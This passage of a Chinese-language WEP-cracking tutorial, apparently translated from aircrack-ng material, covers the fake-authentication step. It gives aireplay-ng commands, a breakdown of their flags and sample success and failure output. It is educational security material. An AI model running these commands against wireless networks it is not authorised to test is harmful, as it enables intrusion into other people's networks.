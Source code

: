# 第四阶段-执行假认证

让这个过程正常工作的下一步是通过接入点进行认证。这一点很重要，因为如果我们在没有关联的情况下执行数据包注入，并且接入点存在，则该过程将失败，连接将被拒绝。事实上，如果注入的源 MAC 地址没有关联，目标 API 将忽略该数据包，并以明文形式发送一个反验证数据包以拒绝连接尝试。发生这种情况时，不会创建新的 IVs，因为 AP 会忽略所有注入的数据包。

您用于注入的 MAC 必须通过使用假认证或使用已关联客户端的 MAC 与 AP 关联。

为了将客户端与接入点关联，我们将使用假认证：

```
aireplay-ng -1 0 -e ganon -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0
```

*   `-1`表示假认证
*   `0`重新关联计时（秒）
*   `-e`ganon 是无线网络名称
*   `-a 00:14:6C:7E:40:80`是接入点 MAC 地址
*   `-h 00:0F:B5:88:AC:82`是我们的卡 MAC 地址

成功看起来像：

```
18:18:20  Sending Authentication Request 
18:18:20  Authentication successful 
18:18:20  Sending Association Request 
18:18:20  Association successful :-) 
```

或其他针对挑剔接入点的变体：

```
aireplay-ng -1 6000 -o 1 -q 10 -e ganon -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0
```

*   `6000`：每`6000`秒重新验证一次。长周期还导致发送保持活动的数据包。
*   `-o 1`：一次只发送一组数据包。默认值为多个，这会混淆某些 AP。
*   `-q 10`：每`10`秒发送一次活动数据包。

成功看起来像：

```
18:22:32  Sending Authentication Request 
18:22:32  Authentication successful 
18:22:32  Sending Association Request 
18:22:32  Association successful :-) 
18:22:42  Sending keep-alive packet 
18:22:52  Sending keep-alive packet 
# and so on. 
```

但是，如果认证失败，将导致以下结果：

```
18:28:02  Sending Authentication Request 
18:28:02  Authentication successful 
18:28:02  Sending Association Request 
18:28:02  Association successful :-) 
18:28:02  Got a deauthentication packet! 
18:28:05  Sending Authentication Request 
18:28:05  Authentication successful 
18:28:05  Sending Association Request 
18:28:10  Sending Authentication Request 
18:28:10  Authentication successful 
18:28:10  Sending Association Request 
```

